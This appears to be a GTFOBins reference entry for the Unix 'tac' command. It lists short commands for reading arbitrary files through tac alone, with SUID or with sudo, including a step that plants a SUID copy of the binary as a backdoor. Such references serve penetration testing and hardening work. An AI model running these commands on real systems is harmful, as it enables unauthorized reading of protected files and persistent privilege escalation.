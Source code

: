 # GTFOBin: tac

Make sure that `RANDOM` does not appear into the file to read otherwise the content of the file is corrupted by reversing the order of `RANDOM`-separated chunks.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
tac -s 'RANDOM' "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which tac) .

LFILE=file_to_read
./tac -s 'RANDOM' "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo tac -s 'RANDOM' "$LFILE"
```